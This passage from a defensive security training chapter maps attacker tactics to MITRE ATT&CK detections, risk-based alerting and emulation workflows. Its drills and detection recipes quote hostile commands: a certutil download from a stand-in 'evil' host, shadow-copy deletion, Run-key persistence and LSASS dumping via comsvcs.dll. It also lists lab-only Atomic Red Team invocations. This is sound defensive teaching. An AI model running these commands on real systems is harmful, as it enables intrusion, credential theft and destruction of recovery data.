Gaining higher permissions. Techniques: access token manipulation (T1134), exploitation for priv-esc (T1068), bypass UAC (T1548.002), valid accounts (T1078), abuse elevation control. **Data:** Windows 4672 (special privileges), 4673/4674, EDR, Sysmon. **Detection idea:** unexpected assignment of admin-equivalent privileges (4672 on non-admin accounts), UAC-bypass patterns, and known priv-esc tool behaviors.

### Defense Evasion (TA0005)

Avoiding detection — the largest tactic by technique count. Techniques: obfuscated/encoded files (T1027), masquerading (T1036), disable/modify tools (T1562), clear logs (T1070), signed-binary proxy execution (T1218 — the LOLBins), process injection (T1055), rootkits. **Data:** EDR, Sysmon (image loads 7, injection 8, process access 10), Windows 1102 (log clear) and 4719 (audit policy change). **Detection idea:** log-clearing (1102) and security-tool tampering are near-certain incident markers; masquerading (a "svchost.exe" running from the wrong path) and injection are classic behavioral tells. Evasion is where attackers fight your telemetry directly, so protecting log integrity (Chapter 2) is part of detecting it.

### Credential Access (TA0006)

Stealing credentials to expand access. Techniques: OS credential dumping (T1003 — LSASS .001, SAM .002, NTDS .003, DCSync .006), brute force (T1110), Kerberoasting (T1558.003), AS-REP roasting (T1558.004), credentials from browsers/stores (T1555), keylogging (T1056). **Data:** Sysmon EID 10 (LSASS access), AD 4769 (Kerberos service tickets), 4625/4740 (brute force/lockout), 4662 (DCSync via directory-service access), EDR. **Detection idea:** LSASS access by a non-security process; a burst of 4769 requests with weak (RC4) encryption from one account (Kerberoasting); 4662 with the DS-Replication GUID from a non-DC (DCSync). These are among the most valuable detections in an AD environment.

### Discovery (TA0007)

Learning the compromised environment. Techniques: account discovery (T1087), network share discovery (T1135), system/network config discovery (T1016/T1082), domain trust discovery (T1482), remote system discovery (T1018). **Data:** process/command-line logs (net.exe, nltest, whoami, `Get-ADUser`, BloodHound/SharpHound artifacts), EDR. **Detection idea:** bursts of built-in recon commands (`net group "Domain Admins"`, `nltest /domain_trusts`) in a short window from one host, and SharpHound collection patterns. Discovery is noisy but bursty — the *cluster* is the signal.

### Lateral Movement (TA0008)

Moving between systems. Techniques: remote services (T1021 — RDP .001, SMB/admin shares .002, WinRM .006), pass-the-hash (T1550.002), pass-the-ticket (T1550.003), exploitation of remote services (T1210). **Data:** Windows 4624 (logon type 3/10), 5140/5145 (share access), 4648 (explicit creds), Sysmon, network/NDR. **Detection idea:** logons to hosts a user/workstation has never touched, PsExec-style service creation on the target (7045/4697), RDP to servers at odd hours, and NTLM logons where Kerberos is expected. Lateral movement is where an intrusion becomes a breach — high-priority coverage.

### Collection (TA0009)

Gathering the target data before exfil. Techniques: data from network shares (T1039), local data (T1005), email collection (T1114), screen capture (T1113), input capture (T1056), staged archives (T1560). **Data:** file-access auditing (4663), EDR file operations, mailbox audit, DLP. **Detection idea:** access to sensitive shares by unexpected identities, mass file reads, and the creation of large staged archives (a `.zip`/`.7z` of many files) — a common pre-exfil tell.

### Command & Control (TA0011)

Communicating with implants. Techniques: application-layer protocols (T1071 — web .001, DNS .004), encrypted channel (T1573), ingress tool transfer (T1105), web service (T1102), proxy (T1090), non-standard port (T1571). **Data:** DNS, proxy/web gateway, firewall, NDR, EDR network events. **Detection idea:** beaconing (regular-interval connections), rare/newly-registered destinations, DNS tunneling (high query volume, long TXT records), and JA3/TLS-fingerprint anomalies. C2 detection is a network-analysis specialty with huge payoff — catch it and objectives are never reached.

### Exfiltration (TA0010)

Stealing data out. Techniques: exfil over C2 (T1041), over alternative protocol (T1048 — DNS/ICMP), over web service (T1567.002 — cloud storage), scheduled transfer (T1029). **Data:** proxy, DNS, firewall (bytes-out), DLP, CASB. **Detection idea:** large or unusual outbound volumes, uploads to personal cloud storage, and DNS/ICMP with abnormal payload sizes. Pair volume anomalies with data classification for precision.

### Impact (TA0040)

The objective's destructive end. Techniques: data encrypted for impact (T1486 — ransomware), inhibit system recovery (T1490 — deleting shadow copies), data destruction (T1485), defacement (T1491), service stop (T1489), resource hijacking (T1496 — cryptomining). **Data:** EDR file operations, Windows 4688 (`vssadmin delete shadows`, `wbadmin`), file-share honeypots/canaries. **Detection idea:** mass file modification with entropy spikes, shadow-copy deletion, and canary-file access. Ransomware's compressed timeline (Chapter 1) makes fast detection here existential.

```mermaid
flowchart LR
    IA[Initial Access] --> EX[Execution]
    EX --> PE[Persistence + PrivEsc]
    PE --> DE[Defense Evasion]
    DE --> CA[Credential Access]
    CA --> DIS[Discovery]
    DIS --> LM[Lateral Movement]
    LM --> COL[Collection]
    COL --> C2[Command & Control]
    C2 --> EXF[Exfiltration]
    EXF --> IMP[Impact]
    LM -.loops back.-> DIS
```



## Part 9c: Threat-Actor Profiles — Threat-Informed Defense in Practice

Threat-informed defense means prioritizing the techniques your *actual* adversaries use. ATT&CK's group pages make this concrete. A few well-documented clusters (generalized profiles for learning — always work from current ATT&CK group pages for live detail):

| Group (example) | Typically associated with | Signature techniques to prioritize |
|-----------------|---------------------------|------------------------------------|
| APT29 (G0016) | Espionage, stealthy, cloud/identity focus | Valid accounts (T1078), cloud/OAuth abuse, living-off-the-land, WMI |
| Lazarus (G0032) | Financially motivated + espionage | Spearphishing (T1566), custom malware, supply chain, destructive impact |
| FIN7 (G0046) | Financial/retail theft | Phishing with weaponized docs, Carbanak, PowerShell, POS memory scraping |
| Ransomware affiliates | Broad, opportunistic | Valid accounts/RDP (T1078/T1021.001), Cobalt Strike, T1486 + T1490 |

The workflow: identify which profiles fit your sector (a bank cares about FIN7-style actors and ransomware affiliates; a defense contractor about espionage groups), pull those groups' technique lists, overlay them in ATT&CK Navigator, and let the overlap drive your detection backlog. This is how a finite team spends its engineering where the real risk is. **Blue team usage:** overlaying two or three relevant groups in the Navigator produces a "most-common techniques" heat layer — an instant, defensible priority list you can take to leadership.

## Part 9d: Building a Small Adversary-Emulation Plan

To validate coverage, emulate a short, coherent attack chain rather than random techniques. A minimal plan for the Part 9 intrusion, expressed as ordered Atomic tests (run only in an isolated lab):

```
Emulation plan: "Phishing to file access"  (lab only)
  1. T1204.002  simulate macro-launched child process
  2. T1059.001  encoded PowerShell execution
  3. T1071.001  beacon to a benign lab listener
  4. T1053.005  create a scheduled task (persistence)
  5. T1021.002  SMB access to a lab file server
  6. verify: did each step generate the intended alert?
  7. record results back onto the ATT&CK Navigator layer
  8. cleanup every atomic test
```

The output is not "we ran some tests" but an **evidence-backed heatmap**: each cell is green only because an emulated technique actually fired an alert. That is the gold standard of coverage measurement, and it closes the loop between the offensive notebooks (which taught these techniques) and this defensive one (which detects them).

## Part 9e: Detection Recipes for the Top Techniques

Coverage becomes real when techniques turn into concrete detection logic. Here are recipes for high-value techniques, written as pseudo-logic you will translate into SPL (Chapter 4), KQL (Chapter 5), and Elastic/Sigma rules (Chapter 6). Each names the data source, the logic, and the tuning that keeps false positives down.

### T1566/T1204 — Office spawns a script interpreter

```
DATA: process creation (Sysmon EID 1 / Windows 4688)
LOGIC:
  parent_image IN (winword.exe, excel.exe, powerpnt.exe, outlook.exe)
  AND child_image IN (powershell.exe, cmd.exe, wscript.exe, cscript.exe,
                      mshta.exe, rundll32.exe, regsvr32.exe)
TUNE OUT: known good add-ins / macros by hash or signed publisher.
WHY IT'S DURABLE: catches the whole phishing-loader class regardless of
  the document, domain, or payload (top of the Pyramid of Pain).
```

### T1059.001 — Suspicious PowerShell

```
DATA: PowerShell script-block logs (EID 4104) / process creation
LOGIC:
  command_line MATCHES any of:
    -enc / -EncodedCommand         (base64 obfuscation)
    -w hidden / -WindowStyle Hidden (no UI)
    -nop / -NoProfile
    IEX / Invoke-Expression + DownloadString/DownloadFile (download cradle)
    FromBase64String / [char]convert   (in-memory obfuscation)
TUNE OUT: signed admin scripts, known SCCM/automation by path+account.
```

### T1003.001 — LSASS credential dumping

```
DATA: Sysmon EID 10 (ProcessAccess) / EDR
LOGIC:
  target_image = lsass.exe
  AND granted_access IN (0x1010, 0x1410, 0x143a)   (read-memory rights)
  AND source_image NOT IN (known AV/EDR/security tools)
ALSO WATCH: comsvcs.dll MiniDump via rundll32, procdump on lsass.
TUNE OUT: your EDR/AV and legitimate crash-dump tooling (allow-list).
```

### T1558.003 — Kerberoasting

```
DATA: AD Security log, Event ID 4769 (Kerberos service ticket)
LOGIC:
  4769 where TicketEncryptionType = 0x17 (RC4)      (weak, crackable)
  AND ServiceName != krbtgt
  AND count(distinct ServiceName) by Account > threshold in short window
TUNE OUT: legacy apps that legitimately request many SPNs; baseline first.
WHY: the data (4769) is usually already collected — a cheap gap to close.
```

### T1021.002 — SMB / PsExec lateral movement

```
DATA: target host Windows 4624 (LogonType 3) + 7045/4697 (service create)
LOGIC:
  new service created on target whose ImagePath is in ADMIN$/temp
  OR 4624 type 3 to a host the source has NEVER authenticated to before
  correlated with 5140/5145 admin-share access
TUNE OUT: legitimate admin tools (SCCM, remote management) by account+host.
```

### T1071.001 — Web C2 beaconing

```
DATA: proxy / firewall / DNS / Sysmon EID 3+22
LOGIC:
  regular-interval connections (low jitter) to a single external dest
  OR connections to a newly-registered / rare domain
  OR script host (powershell.exe) making direct external connections
TUNE OUT: software update/telemetry endpoints; baseline "normal beacons."
```

### T1070.001 — Cleared event logs

```
DATA: Windows Security log, Event ID 1102 (and 104 in System)
LOGIC:  any 1102 event -> alert (high severity)
TUNE: almost none needed; legitimate log clears are rare and should be
      change-controlled. This is a near-pure-signal detection.
```

### T1486/T1490 — Ransomware behaviors

```
DATA: EDR file ops, Windows 4688, file-share canaries
LOGIC:
  mass file modification with high entropy (encryption) in short window
  OR "vssadmin delete shadows" / "wbadmin delete" / "bcdedit ... recoveryenabled no"
  OR access to canary/honeyfiles seeded in shares
TUNE: canaries need zero tuning — no legit process should ever touch them.
```

These recipes share a design philosophy: **key on behavior, correlate for confidence, and tune with precise allow-lists rather than broad suppression.** That philosophy — not the specific syntax — is what transfers to every SIEM in the next three chapters.

## Part 9f: The Unified Kill Chain (Bridging the Two Models)

The **Unified Kill Chain** (Paul Pols, 2017) was designed to fix the original Kill Chain's linearity and perimeter bias by combining it with ATT&CK-style granularity into 18 phases grouped into three arcs. You do not need to memorize all 18, but the three arcs are a useful mental model that maps neatly onto ATT&CK tactics:

| Arc | Phases (summarized) | Maps to ATT&CK tactics |
|-----|---------------------|------------------------|
| **In** (get a foothold) | Recon, weaponization, delivery, social engineering, exploitation, persistence, defense evasion, C2 | Recon → Initial Access → Execution → Persistence → Defense Evasion → C2 |
| **Through** (expand) | Pivoting, discovery, privilege escalation, execution, credential access, lateral movement | Discovery, PrivEsc, Credential Access, Lateral Movement |
| **Out** (achieve goal) | Collection, exfiltration, impact, objectives | Collection, Exfiltration, Impact |

The value of the "In → Through → Out" framing is that it captures what the original Kill Chain glosses over: the long, looping **"Through"** phase where most of a modern intrusion actually happens (discover, escalate, move, repeat). When you brief an incident, "we stopped them in the Through phase, before Out" is often a more honest description than a single Kill-Chain phase number. It also reinforces the analyst instinct from Part 9: once you confirm the "In" arc, hunt forward into "Through" before the adversary reaches "Out."

## Part 9g: Chaining Detections — From Alerts to a Story

Individual technique detections each fire on one action. The real power comes from **correlation**: recognizing that several medium-confidence detections on the same host/user in a short window add up to one high-confidence incident. ATT&CK gives correlation a structure — related tactics in sequence are far more suspicious than any one alone.

Consider these three alerts, each individually "medium":

```
10:02  T1204.002  winword.exe -> powershell.exe on WKS-14 (user: p.lee)
10:03  T1071.001  powershell.exe -> rare external domain from WKS-14
10:19  T1021.002  p.lee network-logon to DC-equivalent share from WKS-14
```

Alone, each might be tuned down as noisy. **Correlated** — same host, same user, Execution → C2 → Lateral Movement within 20 minutes — they form an unmistakable intrusion arc that should escalate immediately at high severity. This is exactly what SIEM correlation rules and "risk-based alerting" do: assign each technique detection a risk score, and fire a high-priority alert when the accumulated score on one entity crosses a threshold within a time window.



Pseudo-logic for risk-based alerting:

```
FOR each detection tagged with an ATT&CK technique:
  assign risk_score (e.g., Execution=20, CredAccess=40, LateralMove=40)
  add to running score for (host, user) over a 24h sliding window
WHEN score(entity) >= 80  OR  >= 3 distinct tactics on one entity:
  raise a single correlated incident (not N separate alerts)
  attach the contributing technique timeline
```

This design solves two problems at once: it **reduces alert fatigue** (one incident instead of a dozen scattered alerts) and it **raises confidence** (the combination is stronger evidence than any part). Splunk's Risk-Based Alerting, Sentinel's Fusion, and Elastic's rule correlation all implement versions of this. The analyst lesson: think in *chains of tactics on an entity*, not isolated alerts — that is how you catch the intrusions that hide in individually-benign steps.

## Part 9h: ATT&CK Data Sources → Detection Mapping

Closing the loop with Chapter 2: ATT&CK now defines **data sources and data components** for each technique, telling you precisely what telemetry to collect. A condensed mapping of the sources you met in Chapter 2 to the tactics they best cover:

| Data source (Chapter 2) | Data component | Best-covered tactics |
|-------------------------|----------------|----------------------|
| Process creation (4688/Sysmon 1) | Command line, parent-child | Execution, Persistence, Discovery, Priv-Esc |
| Sysmon 10 (ProcessAccess) | LSASS access | Credential Access |
| Windows 4624/4625/4769 | Logon, Kerberos | Initial Access, Credential Access, Lateral Movement |
| Windows 4697/4698/7045 | Service/task creation | Persistence |
| Windows 1102 / 4719 | Log clear / audit change | Defense Evasion |
| DNS query logs | Network traffic | C2, Exfiltration |
| Proxy / firewall | Network connection, flow | C2, Exfiltration, Lateral Movement |
| File-access audit (4663) | File access | Collection, Impact |
| Cloud audit (CloudTrail) | Cloud API calls | Initial Access, Persistence, Exfiltration |
| Email gateway / mailbox audit | Application log | Initial Access, Collection |

The practical use: when a heatmap cell is red because of "no data," this table tells you *which* source to onboard to turn it yellow, connecting the coverage plan here back to the collection roadmap in Chapter 2. Coverage is a two-layer problem — collect the source, then write the rule — and ATT&CK's data sources are how you know which source.

## Part 10: Detection & Defense Angle (Consolidated)

Frameworks are only worth anything if they change what you build and detect. The defensive priorities:

**Think in techniques, not indicators.** The entire thrust of ATT&CK and the Pyramid of Pain is that behavioral, technique-level detection is durable while indicator detection decays. Map every incident and every detection to a technique ID, and aim your engineering at the top of the pyramid. Indicators are for cheap enrichment; techniques are for real coverage.

**Measure coverage honestly with a heatmap.** Build an ATT&CK Navigator layer of your real detections, colored by confidence, and overlay the techniques used by actors who target your sector. The red cells are your prioritized backlog. Update it after every incident and every new detection. A heatmap you keep current is the difference between *hoping* you are covered and *knowing* where you are not.

**Separate "no data" from "no detection."** A red cell can mean two very different things: you do not collect the data source (a Chapter 2 collection fix), or you collect it but never wrote the rule (a detection-engineering fix). The second is usually cheaper — writing a Kerberoasting rule against 4769 you already have costs an afternoon; deploying Sysmon fleet-wide costs a project. Triage your gaps by fix cost, not just by risk.

**Verify by emulation, never by assumption.** "We have a rule for that" is a hypothesis until Atomic Red Team or a purple-team exercise proves the alert actually fires. Emulate your priority techniques regularly; every unverified green cell is a potential false negative waiting for a real adversary.

**Use the frameworks to hunt forward.** When triage confirms a tactic (say, Execution), the framework tells you what usually comes next (Persistence, Credential Access, Lateral Movement). Hunt ahead of the adversary along the chain rather than waiting for the next alert. This is how you compress dwell time — you anticipate instead of react.

**Let intel drive priority.** You cannot cover everything, so cover what will actually hit you. ATT&CK groups + CTI tell you which techniques your likely adversaries use; prioritize those. Threat-informed defense is finite engineering aimed where it matters.

## Part 10b: The Wider Framework Family

ATT&CK does not stand alone. A few sibling frameworks from MITRE and elsewhere round out the defender's toolkit, and knowing where each fits keeps you from reaching for the wrong one.

- **MITRE D3FEND** — a knowledge graph of *defensive* techniques, the mirror image of ATT&CK. Where ATT&CK says "adversaries dump LSASS," D3FEND catalogs the countermeasures (e.g., credential-hardening, process-isolation) and maps them to the offensive techniques they counter. Use it to move from "here is the attack technique" to "here are the defensive options."
- **MITRE CAR (Cyber Analytics Repository)** — a library of *analytics* (detection logic) mapped to ATT&CK techniques, with pseudocode and platform-specific implementations. A ready-made starting point when you need a detection for a technique and do not want to invent it from scratch.
- **MITRE Engage** — a framework for *adversary engagement*: deception and denial (honeypots, decoys) as an active strategy, mapped against ATT&CK.
- **Sigma** — not MITRE, but essential: a vendor-neutral, YAML-based detection-rule format tagged with ATT&CK technique IDs. Write a rule once in Sigma and convert it to Splunk SPL, Sentinel KQL, or Elastic — the practical glue between this chapter and the next three. You will meet Sigma directly in Chapter 6.
- **NIST CSF and the Cyber Kill Chain** — higher-level governance and narrative frameworks that ATT&CK slots underneath for technical detail.

| Framework | Answers | Use it for |
|-----------|---------|-----------|
| ATT&CK | What do adversaries do? | Mapping, coverage, detection |
| D3FEND | How do we defend? | Countermeasure selection |
| CAR | What detection logic exists? | Reusable analytics |
| Engage | How do we deceive? | Active defense / deception |
| Sigma | How do I write portable rules? | Cross-SIEM detection content |

The mental model: **ATT&CK is the shared spine, and the others hang off it** — D3FEND for defenses, CAR for analytics, Engage for deception, Sigma for portable rules. All are tagged with ATT&CK IDs, which is exactly why ATT&CK is worth mastering first.

## Part 10c: A Brief History and Why It Won

ATT&CK began inside MITRE around 2013 as part of a research project (FMX) studying how to detect adversaries *already inside* a network — the "assume breach" premise from Chapter 1. Rather than theorize, the team catalogued the actual behaviors of real intrusions they observed, and published the result openly in 2015. That origin explains its two defining traits: it is **empirical** (every technique is grounded in observed, real-world use, with references) and it is **behavior-focused** (it describes what adversaries *do*, not which malware they use), which is precisely why it lands at the top of the Pyramid of Pain.

It won adoption for a simple reason: it gave the entire industry a **common, free, precise vocabulary** at a moment when everyone was describing the same attacks in incompatible language. A detection vendor, a threat-intel team, a red team, and a SOC analyst could finally point at the same technique ID and mean the same thing. Network effects did the rest — once CTI reports, detection products, and training all tagged themselves with ATT&CK, learning ATT&CK became the price of admission to the conversation. For you, that means time spent learning ATT&CK is not tied to one employer or product; it is portable across the whole field.

## Part 11: Common Mistakes & How to Avoid Them

- **Treating ATT&CK as a checklist to "complete."** You will never detect all ~200 techniques equally, and trying to spreads you thin. Prioritize by threat relevance and technique value, not completeness.
- **Confusing "we have the data" with "we have detection."** Collecting 4769 events is not the same as detecting Kerberoasting. A green heatmap cell requires a *tested rule*, not just a log source.
- **Assuming coverage without emulating.** Untested detections routinely fail silently (a parsing change, a field rename, a disabled rule). Verify with Atomic Red Team / purple teaming.
- **Chasing low-pyramid indicators.** Blocklisting hashes and IPs feels productive but decays instantly. Invest in technique-level behavior.
- **Mapping sloppily.** Assigning the wrong technique ID pollutes your heatmap and misleads intel sharing. When unsure, read the technique page and match the *procedure*, not just the name.
- **Over-relying on the linear Kill Chain.** Modern intrusions start with valid logins and loop through post-compromise tactics; do not assume a neat 1→7 progression. Use ATT&CK's non-linear tactics for the messy middle.
- **Ignoring the tactics you rarely see.** Reconnaissance and Resource Development happen off your network and feel un-actionable, but intel about them (new infrastructure, phishing kits) is early warning worth consuming.

## Part 11b: How the Frameworks Fit Together (One Picture)

Beginners often ask which framework is "right." The answer is that they stack. The Kill Chain gives the arc, the Unified Kill Chain adds the looping middle, ATT&CK supplies the technique-level detail, the Diamond Model structures the relationships, and the Pyramid of Pain tells you where to aim detection effort. In one view:



Read top to bottom, it is also a workflow: use the Kill Chain to *communicate*, the Unified Kill Chain to *frame the messy middle*, ATT&CK to *map and measure*, the Pyramid of Pain to *prioritize*, and the Diamond Model to *pivot on intel* — all feeding a heatmap that drives what you build. No single framework does everything, and none competes with the others; a fluent analyst switches between them by task without ceremony.

A closing note on proportion: do not let framework enthusiasm become an end in itself. The frameworks are scaffolding for the real work — detecting and responding to intrusions against systems you are authorized to defend. A perfectly color-coded heatmap that no one turns into detections is decoration; a rough map that drives three high-value detections a month is defense. Keep the frameworks in service of outcomes.

## Part 12: Final Revision / Summary

Frameworks turn scattered logs into a map of the attack. The **Cyber Kill Chain** models an intrusion as seven linear phases (Recon → Weaponization → Delivery → Exploitation → Installation → C2 → Actions on Objectives); its core idea is that breaking any one phase disrupts the attack, but it is too linear and perimeter-centric for modern intrusions. The **Diamond Model** reasons about the four connected features of an intrusion — Adversary, Capability, Infrastructure, Victim — and enables pivoting from one to the others.

**MITRE ATT&CK** is the workhorse: a free, real-world knowledge base structured as **tactics** (14 goals — the *why*), **techniques** and **sub-techniques** (the *how*, e.g., T1003.001 LSASS Memory), **procedures** (exact implementations), plus **groups**, **software**, **mitigations**, and **data sources** that interconnect so that from an actor you reach its techniques, and from a technique you reach the telemetry to detect it and the mitigation to prevent it. Analysts use ATT&CK to **map incidents**, **measure coverage with a heatmap** (green/yellow/red in the Navigator), practice **threat-informed defense**, drive **detection engineering**, run **purple-team emulation** (Atomic Red Team, Caldera), and **communicate** in the industry's shared language.

Beyond the core three, a wider family stacks around ATT&CK — the **Unified Kill Chain** (In/Through/Out) captures the looping middle the original model glosses over; **D3FEND** catalogs defensive countermeasures; **CAR** provides reusable analytics; **Engage** covers deception; and **Sigma** gives portable, cross-SIEM detection rules — all tagged with ATT&CK IDs, which is why ATT&CK is worth mastering first. Practically, you also learned to write **technique-level detection recipes**, to **chain** individually-weak alerts into one high-confidence incident via **risk-based alerting**, and to run the **report-to-detection workflow** (map → overlay → gap → build → emulate → retro-hunt) that operationalizes threat intel.

The **Pyramid of Pain** explains *why* technique-level detection matters: hashes and IPs are trivial for adversaries to change, but TTPs — ATT&CK techniques — are expensive, so behavioral detections at the top of the pyramid are durable. The Kill Chain and ATT&CK are complementary: use the Kill Chain to communicate the arc and organize layered defense, ATT&CK to nail techniques and coverage. The lab mapped a real intrusion end to end (T1566.001 → T1204.002 → T1059.001/T1027 → T1071.001/T1105 → T1021.002 → T1039), showed that only one of six techniques was caught live, derived durable technique-level detections from the gaps, and stressed **verifying coverage by emulation, not assumption.**

## Part 12b: Mapping Drills — Build the Muscle

Mapping to ATT&CK is a skill that only comes from reps. Here are five short scenarios; map each to tactic + technique before checking the answer. This is the exact exercise you will do on live incidents.

**Drill 1.** "An attacker sent an email with a link to a fake login page, harvested credentials, then logged into the VPN with them."
→ T1566.002 (Spearphishing Link, Initial Access) → T1078 (Valid Accounts, Initial Access via T1133 External Remote Services).

**Drill 2.** "A user's workstation ran `certutil -urlcache -f http://evil/payload.exe payload.exe` then executed it."
→ T1105 (Ingress Tool Transfer) + T1218 (System Binary Proxy Execution — certutil as a LOLBin), Execution/Defense Evasion.

**Drill 3.** "The attacker ran `reg add HKCU\...\Run` to launch their implant at logon."
→ T1547.001 (Registry Run Keys / Startup Folder, Persistence).

**Drill 4.** "Using a stolen NTLM hash, the attacker authenticated to three servers without knowing the password."
→ T1550.002 (Pass the Hash, Lateral Movement).

**Drill 5.** "Before encrypting files, the malware ran `vssadmin delete shadows /all /quiet`."
→ T1490 (Inhibit System Recovery) preceding T1486 (Data Encrypted for Impact).

The habit to build: whenever you read an incident report or a disclosed breach write-up, pause at each action and name the technique. Within a few weeks the common IDs (T1566, T1059, T1003, T1021, T1071, T1486) become automatic, and you will start *anticipating* the next technique before you see its alert — which is the whole point.

## Part 12c: Turning a Threat Report into Detections (Mini-Workflow)

A recurring real task: a new threat report drops describing a campaign against your sector. The workflow to operationalize it:

```
1. READ + MAP: extract every action, tag with ATT&CK IDs.
2. OVERLAY: load those IDs into a Navigator layer; compare to your
   existing coverage heatmap.
3. GAP: list techniques from the report you do NOT detect (red cells).
4. TRIAGE by fix cost: no-data (onboard source) vs no-rule (write rule).
5. BUILD: write detections for the cheap, high-value gaps first
   (CAR / Sigma give you a head start).
6. VERIFY: emulate each with Atomic Red Team; confirm alerts fire.
7. HUNT: retro-hunt the report's IOCs + behaviors across historical
   logs in case the campaign already touched you.
8. UPDATE: recolor the heatmap; record new detections' technique tags.
```

Step 7 — the **retro-hunt** — is easy to forget and vital: a report describing a months-old campaign may match activity already in your logs from before you had the detection. Threat-informed defense is both forward-looking (build detections) and backward-looking (hunt history). This mini-workflow is the connective tissue between threat intel (Chapter 2), ATT&CK (this chapter), and the SIEM work of Chapters 4–6.

## Part 13: Cheat Sheet / Quick Reference

**Cyber Kill Chain (7 phases)**
- Reconnaissance → Weaponization → Delivery → Exploitation → Installation → Command & Control → Actions on Objectives. Break any phase = disrupt the attack.

**Diamond Model (4 vertices)**
- Adversary · Capability · Infrastructure · Victim. Pivot from any one to the others.

**ATT&CK hierarchy**
- Tactic (why/goal) → Technique (how) → Sub-technique (specific how) → Procedure (exact implementation). Plus Groups, Software, Mitigations, Data Sources.

**The 14 Enterprise tactics**
- Reconnaissance · Resource Development · Initial Access · Execution · Persistence · Privilege Escalation · Defense Evasion · Credential Access · Discovery · Lateral Movement · Collection · Command & Control · Exfiltration · Impact.

**Unified Kill Chain (three arcs)**
- In (foothold) → Through (expand: discover, escalate, move) → Out (collect, exfil, impact). The "Through" arc is where most modern intrusion effort actually happens.

**Must-know technique IDs**
- T1566 Phishing · T1059(.001 PowerShell) Execution · T1053.005 Scheduled Task · T1543.003 Service · T1547.001 Run Keys · T1003.001 LSASS · T1558.003 Kerberoasting · T1021(.001 RDP / .002 SMB) Lateral · T1550.002 Pass-the-Hash · T1071.001 Web C2 · T1486 Ransomware · T1070.001 Clear Logs (1102).

**Pyramid of Pain (trivial → tough)**
- Hashes → IPs → Domains → Network/Host artifacts → Tools → TTPs. Detect as high as possible.

**Coverage heatmap**
- 🟢 tested detection · 🟡 partial · 🔴 none. Separate "no data" (collection fix) from "no rule" (detection fix). Build it in ATT&CK Navigator.

**Emulation tools**
- Atomic Red Team (one test per technique) · Caldera (automated emulation) · full adversary-emulation plans for tracked groups.

**Analyst uses of ATT&CK**
- Map incidents · measure coverage · threat-informed defense · detection engineering · purple teaming · communicate with intel/vendors.

**Tactic → highest-value detection (quick recall)**
- Initial Access → phishing attachment + valid-account anomalies (impossible travel).
- Execution → Office spawns interpreter; encoded PowerShell.
- Persistence → new service/task/run-key (4697/4698/7045).
- Priv-Esc → 4672 special privileges on non-admin.
- Defense Evasion → 1102 log clear; security-tool tampering.
- Credential Access → LSASS access (Sysmon 10); RC4 4769 burst (Kerberoasting); 4662 DCSync.
- Discovery → burst of net/nltest/whoami; SharpHound.
- Lateral Movement → 4624 type 3 to never-before host; PsExec service create.
- Collection → sensitive-share access by unexpected user; large staged archive.
- C2 → beaconing to rare/new domain; DNS tunneling.
- Exfiltration → large outbound volume; upload to personal cloud.
- Impact → mass file entropy change; shadow-copy deletion; canary access.

**Detection design philosophy**
- Key on behavior (top of pyramid) · correlate for confidence · tune with precise allow-lists, never broad suppression · tag every rule with its technique ID · verify by emulation.

**Risk-based alerting**
- Score each technique detection per entity; fire ONE correlated incident when accumulated score / distinct-tactic count crosses a threshold in a window. Cuts fatigue, raises confidence.

**Framework family (all tagged with ATT&CK IDs)**
- ATT&CK (offense) · D3FEND (defense) · CAR (analytics) · Engage (deception) · Sigma (portable rules).

**Emulation quick commands (isolated lab only)**
```powershell
Invoke-AtomicTest T1059.001            # PowerShell
Invoke-AtomicTest T1053.005            # scheduled task
Invoke-AtomicTest T1021.002            # SMB lateral
Invoke-AtomicTest T1003.001            # LSASS (some tests need care)
Invoke-AtomicTest <ID> -Cleanup        # always clean up
```

**Navigator workflow**
- New layer → search technique IDs → set score/color (green/yellow/red) → overlay relevant threat-group layers → export → prioritize the red cells by fix cost (no-data vs no-rule).

**Report → detection workflow**
- Map to IDs → overlay on heatmap → list gaps → triage by fix cost → build (CAR/Sigma head start) → emulate to verify → **retro-hunt history** → recolor heatmap. Don't skip the retro-hunt.

## Part 13b: Technique-ID Quick Glossary

A compact recognition list — the IDs you will see most often, by tactic. Aim to recognize each on sight.

- **Initial Access:** T1566 Phishing · T1190 Exploit Public App · T1078 Valid Accounts · T1133 External Remote Services · T1195 Supply Chain.
- **Execution:** T1059 Command/Scripting (.001 PowerShell, .003 cmd, .005 VBScript, .006 Python) · T1204 User Execution · T1047 WMI · T1053 Scheduled Task/Job.
- **Persistence:** T1547.001 Run Keys · T1543.003 Windows Service · T1053.005 Scheduled Task · T1136 Create Account · T1546 Event-Triggered Execution.
- **Privilege Escalation:** T1548 Abuse Elevation Control (.002 UAC bypass) · T1134 Token Manipulation · T1068 Exploitation for Priv-Esc.
- **Defense Evasion:** T1027 Obfuscation · T1036 Masquerading · T1055 Process Injection · T1070 Indicator Removal (.001 clear logs) · T1218 System Binary Proxy (LOLBins) · T1562 Impair Defenses.
- **Credential Access:** T1003 OS Credential Dumping (.001 LSASS, .002 SAM, .003 NTDS, .006 DCSync) · T1110 Brute Force · T1558.003 Kerberoasting · T1555 Credentials from Stores · T1056 Input Capture.
- **Discovery:** T1087 Account Discovery · T1082 System Info · T1016 Network Config · T1135 Network Share · T1018 Remote System · T1482 Domain Trust.
- **Lateral Movement:** T1021 Remote Services (.001 RDP, .002 SMB, .006 WinRM) · T1550 Alternate Auth (.002 PtH, .003 PtT) · T1210 Exploit Remote Services.
- **Collection:** T1005 Local Data · T1039 Network Share Data · T1114 Email Collection · T1113 Screen Capture · T1560 Archive Collected Data.
- **Command & Control:** T1071 App-Layer Protocol (.001 Web, .004 DNS) · T1573 Encrypted Channel · T1105 Ingress Tool Transfer · T1090 Proxy · T1102 Web Service.
- **Exfiltration:** T1041 Exfil Over C2 · T1048 Over Alt Protocol · T1567.002 Exfil to Cloud Storage · T1029 Scheduled Transfer.
- **Impact:** T1486 Data Encrypted (ransomware) · T1490 Inhibit Recovery · T1485 Data Destruction · T1489 Service Stop · T1496 Resource Hijacking.

Keep this list handy during the SIEM chapters — every detection you write should carry one of these IDs as a tag, so your heatmap stays honest and current.

## Part 14: Practice Labs & Resources

- **MITRE ATT&CK website** (attack.mitre.org) — read ten technique pages for techniques you know from the offensive notebooks; note the Detection and Data Source sections for each. Then pick one **group** page and read its full technique list to feel threat-informed defense firsthand.
- **MITRE ATT&CK Navigator** — build your first heatmap: create a layer, color the techniques from the Part 8 assessment, and export it.
- **CISA best-practices for ATT&CK mapping** — the free guide "Best Practices for MITRE ATT&CK Mapping" walks through mapping narrative reports to technique IDs accurately (helps avoid the sloppy-mapping mistake in Part 11).
